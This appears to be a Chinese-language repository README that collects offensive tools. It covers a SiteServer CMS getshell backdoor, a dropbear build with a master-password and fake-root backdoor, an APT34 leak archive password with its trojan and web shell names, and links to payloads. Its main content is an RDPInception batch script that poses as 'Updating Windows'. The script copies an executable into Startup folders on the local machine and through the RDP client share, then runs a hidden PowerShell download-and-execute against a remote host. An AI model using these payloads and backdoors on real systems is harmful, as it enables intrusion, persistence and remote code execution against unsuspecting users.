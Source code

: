 # 
## siteserver cms 5.X vuln demo
SiteServer CMS remote download getshell `demo.zip`下载的后门文件
## 修改OpenSSH源代码记录用户详细操作日志
openssh*.tar.gz 修改后的文件编译安装即可，*.docx为修改说明。
+ https://www.zhoufengjie.cn/?p=385
+ https://www.zhoufengjie.cn/?p=174

## dropbear
+ FAKE_ROOT: #define 强制伪"root"uid解析，即使目标系统无法解析用户名。
+ ALT_SHELL: #define 假冒root用户使用备用shell而不是/bin/sh登陆。
+ Server Master Password: 在dropbear命令行上指定-Y以指定要进行身份验证的“主”密码，当没有root用户时，对FAKE_ROOT很有用，因此没有root密码。
+ Forced Home Directory: 在dropbear命令行上指定-H，以使用户使用指定的主目录登录。当没有root用户时，对FAKE_ROOT很有用，因此没有root主目录。
```
wget https://matt.ucc.asn.au/dropbear/releases/dropbear-2018.76.tar.bz2
tar xjf dropbear-2018.76.tar.bz2
cd dropbear-2018.76
./configure --disable-zlib
make
make install
mkdir /etc/dropbear
/usr/local/bin/dropbearkey -t dss -f /etc/dropbear/dropbear_dss_host_key
/usr/local/bin/dropbearkey -t rsa -s 4096 -f /etc/dropbear/dropbear_rsa_host_key
/usr/local/sbin/dropbear -p 6666
```

## APT34-Leak

Pass: `vJrqJeJo2n005FF*`

+ Glimpse（Palo Alto Networks命名为BondUpdater的基于PowerShell的木马的新版本）
+ PoisonFrog（旧版BondUpdater）
+ HyperShell（Palo Alto Networks称之为TwoFace的网络外壳）
+ HighShell（另一个Web shell）
+ Fox Panel（网络钓鱼套件）
+ Webmask（DNS隧道，DNSpionage背后的主要工具）

## RDPInception
Bat To Exe转换器添加如下代码保存`windows.bat`
```
@echo off

echo Updating Windows ...

@echo off
timeout 1 >nul 2>&1

mkdir \\tsclient\c\temp >nul 2>&1
mkdir C:\temp >nul 2>&1

copy windows.exe C:\temp >nul 2>&1
copy windows.exe \\tsclient\c\temp >nul 2>&1

del /q %TEMP%\temp_00.txt >nul 2>&1

set dirs=dir /a:d /b /s C:\users\*Startup*
set dirs2=dir /a:d /b /s \\tsclient\c\users\*startup*

echo|%dirs%|findstr /i "Microsoft\Windows\Start Menu\Programs\Startup">>"%TEMP%\temp_00.txt"
echo|%dirs2%|findstr /i "Microsoft\Windows\Start Menu\Programs\Startup">>"%TEMP%\temp_00.txt"

for /F "tokens=*" %%a in (%TEMP%\temp_00.txt) DO (
	copy windows.exe "%%a" >nul 2>&1
	copy C:\temp\windows.exe "%%a" >nul 2>&1
	copy \\tsclient\c\temp\windows.exe "%%a" >nul 2>&1
)

del /q %TEMP%\temp_00.txt >nul 2>&1

powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://x.x.x.x'))"
```
选项：

+ 工作目录：当前
+ EXE格式：32位windows隐藏
+ 嵌入式提取到：临时目录

转换bat保存为`windows.exe`,编辑`windows.bat`嵌入添加`windows.exe`重新转换为最终成品windows.exe

## kali_beef_start
Kali Beef Framework Start Script

## Runtime Broker

+ https://share.dmca.gripe/PcH4etGtRBxAHqlW.txt	Linux
+ https://share.dmca.gripe/VB9D9enog03XrsIi.txt	Winndwos online
+ https://share.dmca.gripe/NzwQ12XcKipA3Ie6.txt	Winndwos offine
+ https://share.dmca.gripe/0WfFxN2u1qhekMRS.txt	Windows online dll


